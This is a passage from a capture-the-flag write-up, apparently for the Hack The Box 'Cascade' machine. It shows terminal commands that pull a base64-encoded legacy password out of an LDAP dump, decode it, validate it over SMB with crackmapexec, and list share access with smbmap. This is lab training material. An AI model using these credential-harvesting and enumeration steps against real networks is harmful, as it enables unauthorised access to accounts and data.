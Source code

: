 And we obtain a password. To know where this password is we can use `grep` command.

```bash
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ cat ldap/full_tree.txt| grep -A10 -B11 cascadeLegacyPwd:
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

We can see that the password is within user r.thompson section of the tree. We will decode the password and check if is correct for the user.

```bash
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ echo 'clk0bjVldmE=' | base64 -d
rY4n5eva                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

We have credentials → `r.thompson:rY4n5eva`.

# Enumeration with credentials - r.thompson

The service we could access before was SMB, so let’s check it now.

```bash
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ smbmap -H 10.10.10.182 -u "r.thompson" -p "rY4n5eva" -d "cascade.local"

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.182:445        Name: cascade.local             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```
